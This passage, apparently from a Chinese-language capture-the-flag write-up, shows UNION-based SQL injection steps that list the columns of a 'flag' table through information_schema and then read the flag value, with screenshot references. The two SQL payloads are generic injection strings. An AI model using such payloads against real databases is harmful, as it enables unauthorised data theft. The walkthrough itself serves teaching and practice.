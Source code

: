 ![获取当前表所在数据库的所有表](/images/5_5.png)

获取flag表所有列

```sql
  union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'flag'
```

![获取flag表所有列](/images/5_6.png)

获取flag表中某属性的值

```sql
  union select 1,flag,3,4 from flag
```
